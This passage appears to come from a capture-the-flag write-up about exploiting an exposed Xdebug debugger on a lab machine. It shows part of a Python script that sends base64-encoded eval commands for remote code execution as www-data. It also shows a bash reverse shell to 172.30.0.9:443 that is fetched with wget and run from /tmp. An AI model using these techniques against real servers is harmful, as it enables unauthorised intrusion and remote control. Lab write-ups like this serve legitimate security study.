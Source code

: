```
    conn.sendall(b'eval -i 1 -- ' + base64.b64encode(cmdstr) + b'\x00')
    resp = conn.recv(1024)
    try:
        encoded_res = res_re.search(resp.decode()).group(1)
        print(base64.b64decode(encoded_res.encode()).decode().strip())
    except AttributeError:
        pass  

```

I started with some scripts I found on GitHub (like [this](https://github.com/nqxcode/xdebug-exploit)), but added in the decode of the response.

It works nicely:

```

oxdf@parrot$ python xdebug.py 
>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
>> pwd
/var/www/html
>> ls
info.php
vpn

```

#### Shell

Really, I just need to create a reverse shell, so in theory, writing that Python script is unnecessary. Still, getting a reverse shell was a bit tricky. My go-to reverse shell with Bash didn’t seem to work over the Xdebug run, and `nc` isn’t on the box. Eventually, I found that `wget` was:

```

>> which wget
/usr/bin/wget

```

I’ll write a simple reverse shell script, `rev.sh`:

```

#!/bin/bash

bash -i >& /dev/tcp/172.30.0.9/443 0>&1

```

With a Python webserver started, I’ll get the shell, and then run it:

```

>> wget 172.30.0.9/rev.sh -O /tmp/.0xdf
>> bash /tmp/.0xdf

```
